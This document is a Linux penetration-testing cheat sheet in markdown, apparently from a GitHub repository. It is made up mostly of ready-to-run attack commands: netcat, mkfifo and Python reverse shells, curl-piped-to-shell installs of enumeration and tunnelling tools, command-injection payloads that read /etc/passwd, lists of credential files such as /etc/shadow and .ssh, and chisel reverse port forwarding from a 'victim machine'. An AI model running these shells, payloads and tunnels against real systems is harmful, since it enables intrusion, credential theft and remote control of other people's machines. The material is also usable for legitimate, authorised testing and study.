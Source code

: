 # 🐧 Linux

- [Auto Script](#auto-script)
- [Command Injection](#command-injection)
- [File Enumeration](#file-enumeration)
- [Gdbserver](#gdbserver)
- [Port Forwarding](#port-forwarding)
- [Reverse Shell](#reverse-shell)
- [SCP](#scp)
- [Sudo](#sudo)

## Sudo
```
sudo -l
```

## Auto Script
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

## Reverse Shell
### Server
```
nc -lp 4444
```
### reSH
```
# Client
resh ip 4444
# Server
resh 4444
```
[Source](/scripts/resh.py)

### Netcat
```
nc ip 4444 -e /bin/bash
```

### Mkfifo
```
mkfifo /tmp/f;nc ip 4444 0</tmp/f|/bin/sh -i 2>&1|tee /tmp/f
```

### Python
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

*[source](https://github.com/acole76/pentestmonkey-cheatsheets/blob/master/shells.md)*

## SCP
### Download File
```
scp -P port user@192.168.1.ip:path .
```

### Upload File
```
scp -P port file user@192.168.1.ip:path
```

### Upload peda
```
scp -P 22 -r ~/.peda user@192.168.1.ip:/tmp/peda
```

## Gdbserver
*Port: 1337*
```
$ gdb
(gdb) target extended-remote ip:port
(gdb) remote get remote_file local_file
(gdb) remote put local_file remote_file
```

## File Enumeration
### Classic
- `/etc/passwd`  &  `/etc/shadow`
- `/www/html` ꞏ `/var/www` ꞏ `/srv/html` ꞏ `/usr/share/*`
- `/home/user/.ssh`
- `/etc/cron.d`
- `/opt/`

### Proc
`/proc/` contains useful information about the processes that are currently running

| directory	          | description                                     |
|---------------------|-------------------------------------------------|
| `/proc/PID/cmdline` | Command line arguments.                         |
| `/proc/PID/cwd`     | Link to the current working directory.          |
| `/proc/PID/environ` | Values of environment variables.                |
| `/proc/PID/exe`     | Link to the executable of this process.         |
| `/proc/PID/fd`      | Directory, which contains all file descriptors. |

### Command

```
find / -user user 2>&-
find / -group group 2>&-
find / -user root -executable -type f 2>&- | grep -v /bin/
```

## Script
```
curl "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -Lo lse.sh
chmod +x lse.sh
./lse.sh -l1
```

## Command Injection
```bash
;{cat,/etc/passwd}
;cat${IFS}/etc/passwd;
; cat /etc/passwd ;
$(cat /etc/passwd)
`cat /etc/passwd`
&& cat /etc/passwd &&
|| cat /etc/passwd ||
< <(cat /etc/passwd)
| cat /etc/passwd
"; cat /etc/passwd "
```
[GTFOBins - Bypass  local security restrictions](https://gtfobins.github.io/)


## Port Forwarding

### Chisel

```
# Install chisel

curl https://i.jpillora.com/chisel! | bash
```

```bash
# Example: 8000 -> 4444

# Attacker machine:
$> chisel server -p 4444 --reverse

# Victim machine:
$> ./chisel client ip-server:4444 R:8000:127.0.0.1:8000
```

### SSH
```sh
ssh -L 8080:127.0.0.1:8080 user@ip
```

